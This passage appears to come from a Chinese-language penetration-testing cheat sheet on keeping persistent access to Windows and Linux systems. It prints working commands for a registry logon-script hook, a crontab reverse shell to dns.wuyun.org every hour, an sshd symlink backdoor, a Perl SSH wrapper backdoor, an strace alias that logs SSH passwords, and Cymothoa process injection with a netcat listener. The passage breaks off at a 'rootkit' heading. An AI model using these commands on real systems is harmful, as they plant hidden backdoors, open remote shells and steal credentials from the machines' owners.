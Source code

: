 ```
New-ItemProperty "HKCU:\Environment\" UserInitMprLogonScript -value "c:\test\11.bat" -propertyType string | Out-Null
```
##### 30、[Password Filter DLL](https://3gstudent.github.io/3gstudent.github.io/Password-Filter-DLL%E5%9C%A8%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E4%B8%AD%E7%9A%84%E5%BA%94%E7%94%A8/) 
##### 31、[利用BHO实现IE浏览器劫持](https://3gstudent.github.io/3gstudent.github.io/%E5%88%A9%E7%94%A8BHO%E5%AE%9E%E7%8E%B0IE%E6%B5%8F%E8%A7%88%E5%99%A8%E5%8A%AB%E6%8C%81/) 

#### Linux 
##### crontab 
每60分钟反弹一次shell给dns.wuyun.org的53端口
```
#!bash
(crontab -l;printf "*/60 * * * * exec 9<> /dev/tcp/dns.wuyun.org/53;exec 0<&9;exec 1>&9 2>&1;/bin/bash --noprofile -i;\rno crontab for `whoami`%100c\n")|crontab -
```
##### 硬链接sshd 
```
#!bash
ln -sf /usr/sbin/sshd /tmp/su; /tmp/su -oPort=2333;
```
链接：ssh root@192.168.206.142 -p 2333
##### SSH Server wrapper 
```
#!bash
cd /usr/sbin
mv sshd ../bin
echo '#!/usr/bin/perl' >sshd
echo 'exec "/bin/sh" if (getpeername(STDIN) =~ /^..4A/);' >>sshd
echo 'exec {"/usr/bin/sshd"} "/usr/sbin/sshd",@ARGV,' >>sshd
chmod u+x sshd
//不用重启也行
/etc/init.d/sshd restart
```
```
socat STDIO TCP4:192.168.206.142:22,sourceport=13377
```
##### SSH keylogger 
vim当前用户下的.bashrc文件,末尾添加
```
#!bash
alias ssh='strace -o /tmp/sshpwd-`date '+%d%h%m%s'`.log -e read,write,connect -s2048 ssh'
```
source .bashrc
##### Cymothoa_进程注入backdoor 
```
./cymothoa -p 2270 -s 1 -y 7777
```
```
nc -vv ip 7777
```
##### rootkit

